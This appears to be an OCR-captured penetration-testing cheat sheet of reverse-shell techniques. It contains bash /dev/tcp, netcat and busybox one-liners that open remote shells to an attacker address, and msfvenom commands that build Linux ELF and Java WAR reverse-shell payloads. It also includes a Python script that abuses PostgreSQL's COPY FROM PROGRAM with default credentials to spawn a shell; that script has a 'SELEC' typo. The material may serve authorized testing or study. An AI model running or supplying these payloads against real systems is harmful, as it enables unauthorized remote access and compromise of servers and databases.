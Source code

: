 ```jsx
/bin/sh -i >& /dev/tcp/192.168.1.1/4444 0>&1
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.1.1 4444 >/tmp/f
nc 192.168.1.1 8080 -e /bin/bash
busybox nc 192.168.1.1 8080 -e /bin/bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.1 LPORT=80 --platform Linux -f elf -o rs.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.1 LPORT=80 -a x64 --platform Linux -f elf -o rs.elf
```

JAVA

```jsx
msfvenom -p java/shell_reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f war > shell.war
```

PostgreSQL

- https://raw.githubusercontent.com/squid22/PostgreSQL_RCE/main/postgresql_rce.py
    
```jsx
#!/usr/bin/env python3
import psycopg2

RHOST = '192.168.56.47'
RPORT = 5437
LHOST = '192.168.49.56'
LPORT = 80
USER = 'postgres'
PASSWD = 'postgres'

with psycopg2.connect(host=RHOST, port=RPORT, user=USER, password=PASSWD) as conn:
    try:
        cur = conn.cursor()
        print("[!] Connected to the PostgreSQL database")
        rev_shell = f"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {LHOST} {LPORT} >/tmp/f"
        print(f"[*] Executing the payload. Please check if you got a reverse shell!\n")
        cur.execute('DROP TABLE IF EXISTS cmd_exec')
        cur.execute('CREATE TABLE cmd_exec(cmd_output text)')
        cur.execute('COPY cmd_exec FROM PROGRAM \'' + rev_shell  + '\'')
        cur.execute('SELEC * from cmd_exec')
        v = cur.fetchone()
        #print(v)
        cur.close()

    except:
        print(f"[!] Something went wrong")
```
    

ASP.NET

- virtual host routing ⇒ access via domain configured in /etc/hosts
